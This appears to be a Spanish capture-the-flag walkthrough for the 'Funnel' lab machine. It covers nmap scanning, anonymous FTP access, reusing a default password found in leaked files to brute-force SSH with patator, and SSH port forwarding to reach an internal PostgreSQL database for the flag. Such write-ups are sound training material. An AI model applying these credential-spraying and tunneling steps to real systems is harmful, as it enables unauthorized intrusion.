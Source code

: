 1. **Escaneamos los puertos más comunes con Nmap con los scripts predeterminados y averiguando los servicios que corren.**
```bash
sudo nmap -sVC [target IP]
```
--> 21 - open - ftp - vsftpd 3.0.3
--> 22 - open -ssh - OpenSSH 8.2p1 Ubuntu 4ubuntu0.5

2. **Vamos a intentar acceder como Anonymous al FTP para ver si podemos encontrar algo.**
```bash
ftp [target IP]

Name: Anonymous
Password: [blank]

230 Login successful
```
--> Podemos entrar como Anonymous.

3. **Vamos a buscar cosas dentro del FTP.**
```bash
ftp> ls
mail_backup

ftp> cd mail_backup
ftp> ls
password_policy.pdf
welcome_28112022

ftp> get password_policy.pdf
226 Transfer completed
ftp> get welcome_28112022
226 Transfer completed

ftp> exit
```

4. **Vamos a visualizar los archivos que hemos obtenido del FTP.**
```bash
cat welcome_28112022
```
--> Es un correo electrónico donde `root@funnel.htb` da la bienvenida al equipo a `optimus@funnel.htb`, `albert@funnel.htb`, `andreas@funnel.htb`, `christine@funnel.htb` y `maria@funnel.htb`. Además, les dice que han configurado las cuentas que necesitan para acceder a la infraestructura interna de la empresa y que lean muy cuidadosamente la política de contraseñas de la empresa (la cual hemos conseguido obtener del FTP también).

Abrimos el PDF donde se explica cómo tienen que ser las contraseñas. Lo más importante que leemos es que dicen que las contraseñas predeterminadas hay que cambiarlas inmediatamente (nos da un ejemplo de contraseña predeterminada que es `funnel123#!#`), por lo que seguramente nos encontremos algún empleado que no la haya cambiado.

5. **Ahora vamos a crear un documento llamado `users.txt` donde aparezcan todos los usuarios posibles que hemos encontrado (leyendo el correo).**
```
optimus
albert
andreas
christine
maria
```

6. **Vamos a usar la herramienta [[Patator]] para hacer un ataque de fuerza bruta por SSH.**
Le indicamos la IP del host que queremos atacar, los usuarios del archivo que hemos creado (Ponemos FILE0 y luego definimos qué es el 0) y como contraseña predeterminada, ponemos la que venía en el correo:
```bash
patator ssh_login host=[target IP] user=FILE0 password='funnel123#!#' 0=users.txt
```
![](img/funnel1.png)
--> Encontramos que `christine` tenía la contraseña predeterminada y nos ha dejado entrar por SSH.

7. **Una vez descubierto esto, accedemos como Christine.**
```
ssh christine@[target IP]

christine@[target IP] password: funnel123#!#

Welcome to Ubuntu!
```
--> **MACHINE PWNED!**

8. **Nos movemos por la máquina, pero vemos que tampoco hay mucho que hacer con el usuario Christine.**

9. **Ejecutamos el comando `ss -tl` para identificar puertos en los que el sistema está escuchando (`-l`) conexiones entrantes por TCP (`-t`).**
--> Obtenemos que está escuchando SSH, FTP y también PostgreSQL (en localhost), que es un SGBD.
Si ejecutamos el mismo comando pero con una `n` (`ss -tln`), obtendremos el puerto por el que está corriendo en vez de el nombre del servicio. Así vemos que PostgreSQL está corriendo en localhost por el puerto 5432 (`127.0.0.1:5432`).

10. **Intentamos entrar en PostgreSQL.**
```bash
psql
```
--> Nos dice que no está instalado. Para instalarlo, necesitamos permisos de superusuario, por lo que no podremos hacerlo.

11. **Para poder hacerlo, vamos a salirnos del equipo de Christine y vamos a usar el Local Port-Forwarding**
Creamos un túnel SSH local donde redirigiremos el puerto 1337 de nuestra máquina local al puerto 5432 de la máquina de Christine. Es decir, al entrar a `127.0.0.1:1337` es como si estuviéramos entrando en `[target IP]:5432`:
```bash
ssh -L 1337:localhost:5432 christine@[target IP]
```
--> Se nos pedirá la contraseña de Christine y la introducimos.

12. **Ahora desde nuestra máquina local, vamos a instalar `psql` para usar PostgreSQL.**
Primero actualizamos los paquetes de nuestra máquina:
```bash
sudo apt update && sudo apt upgrade -y
```
Y ahora lo instalamos:
```bash
sudo apt install postgresql -y
```

13. **Una vez instalado, vamos a entrar en la base de datos con el usuario Christine y como host, indicamos localhost y como puerto, el 1337 (recuerda que hicimos antes el Local Port Forwarding).**
```bash
psql -U christine -h localhost -p 1337
```
--> Para entender esto, realmente esta petición es como si la hicieramos a `-h [target IP] -p 5432`, pero como hicimos el Local Port Forwarding, tenemos que poner `localhost` y 1337 que son el host y el puerto que hemos usado en el túnel.
--> Entramos en la base de datos como Christine

14. **Ahora vamos a movernos por la base de datos para ver qué podemos encontrar.**
Vamos a escribir `\l` para listar todas las bases de datos a las que podemos acceder.
--> Obtenemos varias bases de datos como `christine`, `postgres`, `secrets`, `template0`, `template1`.
La que más nos interesa a primera vista es la de `secrets`.

Para entrar en la base de datos `secrets`, hacemos `\c secrets`.
Para listar las relaciones que hay, hacemos `\dt`.
--> Y obtenemos que está la flag. Para obtenerla, hacemos `SELECT * FROM flag;`

---
## Alternativa - Con Dynamic Port Forwarding y Proxychains
En vez de usar un Local Port Forwarding (que para este caso realmente sí se recomienda, pero también es importante conocer que hay más tipos), podemos usar un Dynamic Port Forwarding.
Esto funciona igual, pero el DPF usa un puerto local para actuar como un servidor proxy SOCKS, permitiendo redirigir tráfico hacia múltiples destinos y puertos remotos de forma dinámica y sin tener que especificar los puertos remotos de antemano.

- Creamos el Dynamic Port Forwarding:
```bash
ssh christine@[target IP] -D 127.0.0.1:1337
```
--> Se nos pedirá la contraseña de Christine y la introducimos

- Abrimos el archivo de configuración de Proxychains con `sudo nano /etc/proxychains4.conf` y en la parte de ProxyList (debajo del predeterminado que pone `socks4 127.0.0.1 9052`) le añadimos el siguiente: `socks5 127.0.0.1 1337`.

- Y ya solo quedaría conectarnos usando Proxychains igual que lo hicimos antes con el LPF pero cambiando el puerto ya que como ahora lo estamos haciendo de forma dinámica, pondremos el puerto real en vez de el de nuestra máquina (que ya se encuentra dentro de la configuración de `proxychains`):
```bash
proxychains psql -U christine -h localhost -p 5432
```
